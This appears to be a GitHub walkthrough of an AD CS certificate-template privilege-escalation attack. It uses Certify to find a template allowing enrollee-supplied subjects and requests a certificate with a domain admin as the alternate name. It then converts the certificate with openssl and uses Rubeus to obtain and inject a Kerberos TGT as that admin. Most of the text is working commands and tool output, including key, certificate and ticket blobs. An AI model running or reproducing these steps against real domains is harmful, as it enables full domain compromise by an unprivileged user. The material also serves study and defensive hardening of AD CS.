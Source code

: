 Thanks for great paper and tool : https://github.com/GhostPack/Certify

Simple explaination : 

There is multiple certificate templates in AD CS, some of them we have enrollment rights and some of them we dont. Also there is a flag  for "ENROLLEE_SUPPLIES_SUBJECT" which means when requesting a certificate, we can also define a alternate name for it. We will enroll a certificate and give alternate name as one of domain admin accounts and use this certificate to request a TGT 

First i will compile and run in memory as mentioned : https://github.com/GhostPack/Certify#sidenote-running-certify-through-powershell

Check vulnerable CA

	[Certify.Program]::Main("find /vulnerable".Split())
	
There is a vulnerable template

	CA Name                               : Valhalla-CA1.valhalla.local\valhalla-CA
	Template Name                         : ValhallaUser
	Schema Version                        : 2
	Validity Period                       : 1 year
	Renewal Period                        : 6 weeks
	msPKI-Certificates-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
	mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
	Authorized Signatures Required        : 0
	pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
	mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
	Permissions
	Enrollment Permissions
	Enrollment Rights           : valhalla\Domain Admins        S-1-5-21-******-******-******-512
										 						valhalla\Domain Users         S-1-5-21-******-******-******-513
										  						valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
										  						
	Object Control Permissions
			Owner                       : 	valhalla\admin		         S-1-5-21-******-******-******-5747
			WriteOwner Principals       : 	valhalla\Domain Admins        S-1-5-21-******-******-******-512
										  									valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
			WriteDacl Principals        : 	valhalla\Domain Admins        S-1-5-21-******-******-******-512
										 									 valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
			WriteProperty Principals    : 	valhalla\Domain Admins        S-1-5-21-******-******-******-512
										 									 valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
																			 
																			 

Enroll certificate with alternate name which is domain admin

	[Certify.Program]::Main("request /ca:Valhalla-CA1.valhalla.local\valhalla-CA /template:ValhallaUser /altname:superadmin".Split())

	[*] Action: Request a Certificates

	[*] Current user context    : valhalla\testuser
	[*] No subject name specified, using current context as subject.

	[*] Template                : ValhallaUser
	[*] Subject                 : ********
	[*] AltName                 : superadmin

	[*] Certificate Authority   : Valhalla-CA1.valhalla.local\valhalla-CA

	[*] CA Response             : The certificate had been issued.
	[*] Request ID              : 160811

	[*] cert.pem         :

	-----BEGIN RSA PRIVATE KEY-----
	MIIEowIBAAKCAQEAuynAtgBp0JC0nN7oCTl5bCz9/2dPjJx/LWG85DMOYRT5qAlA
	qQ4nNHkIFUwBXPG/BvrB57wTKYkDtoWyTEwJtHY93arS8bH0/PzUyCq4iuTIU/bY
	....................
	Tqau1wKBgB+BIL4QdsS4si1yRztYbXwGYHr2yNUBvgBJzw6sYVryvPV/u3QfCHHN
	+qIbvXmdwIWlc71uFAC7z76IVgzqnCJr4wc9UIPw5P0GYFpkWXPUWzNoMyCCwabD
	GdnlVgCJOVA8x9SaYu4kae/LlKdGAJtWgjI+utWrBQ1wJ4qSpDYZ
	-----END RSA PRIVATE KEY-----
	-----BEGIN CERTIFICATE-----
	MIIGlDCCBXygAwIBAgITOAACdCveKa2lX9NzAAAAAAJ0KzANBgkqhkiG9w0BAQUF
	ADBZMRIwEAYKCZImiZPyLGQBGRYCdHIxEzARBgoJkiaJk/IsZAEZFgNjb20xGDAW
	....................
	lnzIzVhjLAxmfPTJzkpMCWc2tGR4TPxcRM0dDjjq1pXxqx1zOefsfEE/4u5ga4b8
	IkXuWK6XVvv+LfD5wAy4Wu63MPJKD81gLTdCNr4U+4r7yTDmEMIT+3NOCd/o9lhg
	mVlHfB1DYpU=
	-----END CERTIFICATE-----


	[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



	Certify completed in 00:00:04.6491198
	
Save RSA KEY and Certificate to a file called "cert.pem" and convert it to cert.pfx

	openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
	

Ask TGT with cert.pfx

	.\Rubeus.exe asktgt /user:superadmin /certificate:c:\full\path\of\cert.pfx /domain:valhalla.local /ptt

	[*] Action: Ask TGT

	[*] Using PKINIT with etype rc4_hmac and subject: ********
	[*] Building AS-REQ (w/ PKINIT preauth) for: 'valhalla\superadmin'
	[+] TGT request successful!
	[*] base64(ticket.kirbi):

		  doIFwDCCBbygAwIBBaEDAgEWooIEzjCCBMphggTGMIIEwqADAgEFoREbD09ERUFCQU5LLkNPTS5UUqIk
		  MCKgAwIBAqEbMBkbBmtyYnRndBsPb2RlYWJhbmsuY29tLnRyo4IEgDCCBHygAwIBEqEDAgEFooIEbgSC
		  BGoPpDODKpEjKMJUK+MaYfrYP61rk+Ud/zXcXeFh6snXhXri6UWAFe7jav+eZ5VfvG+KwcH2cFnaX98Y
		  ......................
		  QUJBTksuQ09NLlRSohMwEaADAgEBoQowCBsGYXQuY2FuowcDBQBA4QAApREYDzIwMjExMTE5MDY1NzU0
		  WqYRGA8yMDIxMTExOTE2NTc1NFqnERgPMjAyMTExMjYwNjU3NTRaqBEbD09ERUFCQU5LLkNPTS5UUqkk
		  MCKgAwIBAqEbMBkbBmtyYnRndBsPb2RlYWJhbmsuY29tLnRy

	  ServiceName           :  krbtgt/valhalla.local
	  ServiceRealm          :  valhalla.local
	  UserName              :  superadmin
	  UserRealm             :  valhalla.local
	  StartTime             :  
	  EndTime               :  
	  RenewTill             :  
	  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
	  KeyType               :  rc4_hmac
	  Base64(key)           :  